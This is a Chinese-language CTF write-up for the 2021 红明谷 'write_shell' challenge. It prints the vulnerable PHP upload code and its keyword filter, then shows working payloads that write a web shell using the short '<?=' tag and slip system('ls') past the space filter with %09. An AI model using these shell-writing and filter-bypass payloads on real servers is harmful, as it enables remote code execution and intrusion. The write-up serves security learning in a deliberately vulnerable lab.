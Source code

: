 # \[红明谷CTF 2021]write\_shell

## \[红明谷CTF 2021]write\_shell

## 考点

* `<?`写shell
* %09绕过空格

## wp

给了代码

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

给了沙盒路径，访问`?action=pwd`就可以看到

![](<../.gitbook/assets/image (6) (1) (1) (1).png>)

然后`?action=upload&data=`是将data写入到沙盒中，访问`sandbox/cc551ab005b2e60fbdc88de809b2c4b1/index.php`就可以看到

要写shell有三种方式，如下

* \<?php
* \<?=要开启short\_open\_tag
* \<script language="php">在PHP7之后就不能用了

在返回头看到PHP版本为7.0，且在check函数中过滤了很多字符

```
/'| |_|php|;|~|\\^|\\+|eval|{|}/i
```

这样就只剩下了`<?=`这种方式，请求`?action=upload&data=%3c%3f%3d123456%3f%3e`，再访问沙盒的index.php，是可以输出123456，过滤了`~`，不能取反绕过。然后构造正常的shell就可以

```
?action=upload&data=<?=system("ls")?>
// 过滤了空格，使用%09绕过
?action=upload&data=<?=system("ls%09/")?>
```

![](<../.gitbook/assets/image (25) (1) (1) (1) (1) (1) (1).png>)

## 小结

1. 这里尝试了无参RCE，发现个很奇怪的东西，在去读请求头的时候，出来个http，`?action=upload&data=<?=end(getallheaders())?>`，不论怎么改请求头都是这个http
